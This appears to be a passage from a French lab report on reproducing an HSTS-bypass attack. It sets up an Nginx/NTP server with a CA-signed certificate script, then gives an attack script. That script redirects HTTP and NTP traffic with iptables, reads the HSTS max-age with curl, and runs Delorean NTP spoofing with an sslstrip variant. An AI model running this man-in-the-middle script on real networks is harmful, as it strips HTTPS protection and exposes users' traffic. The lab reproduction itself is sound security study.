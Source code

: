 Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connections HTTPS a été généré avec openssl grâce aux scripts présents dans le dossier , et signé par notre autorité de certification par ce script :

\begin{verbatim}
#!/bin/sh

if test ! -f root-ca.pem || test ! -f root-ca.key
then
    echo "[-] First, create CA !"
    exit 1
fi

# Create private key
openssl genrsa -out cert.key 4096

# Create request
openssl req -new -key cert.key -out cert.csr

# Sign certificate with CA
openssl x509 -req -in cert.csr -CA root-ca.pem -CAkey root-ca.key -CAcreateserial -out cert.pem -days 365 -sha256

echo "[+] Your certificate: cert.pem"
echo "[+] Your private key: cert.key"
\end{verbatim}

Sur le serveur Nginx, nous avons configuré un domaine en HTTP (), ainsi qu'un domaine en HTTPS (), sécurisé grâce à HSTS. La configuration de ce dernier se fait en rajoutant la ligne suivante dans le fichier de configuration de Nginx :

\begin{verbatim}
  add_header Strict-Transport-Security "max-age=31536000; includeSubDomains";
\end{verbatim}

Cette machine héberge également un serveur NTP. Nous avons simplement eu à installer le paquet ntpd pour que celui-ci soit lancé au démarrage.

\subsubsection{Machine immortal (147.210.12.2 - 147.210.13.1)}

C'est sur cette machine que se trouve le Proof-Of-Concept de l'attaque. Nous avons également utilisé le script Delorean (\url{https://github.com/PentesterES/Delorean}) comme décrit dans le papier de l'attaque afin d'usurper les requêtes NTP de la machine grave. L'attaque se lance grâce au script  :

\begin{verbatim}
#!/bin/sh

PROXY_PORT=4242
DELOREAN_PORT=4343

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT
iptables -t nat -A PREROUTING -p udp --destination-port 123 -j REDIRECT --to-port $DELOREAN_PORT

hsts_expire=$(curl -v https://www.opeth.secure --insecure 2>&1  | grep Strict | awk -F= '{print $2}' | awk -F\; '{print $1}')
hsts_expire=$(($hsts_expire / 60 + 1))

/mnt/host/delorean.py -p $DELOREAN_PORT -n -s ${hsts_expire}m &
/mnt/host/sslstrip-ntp.py $PROXY_PORT
\end{verbatim}

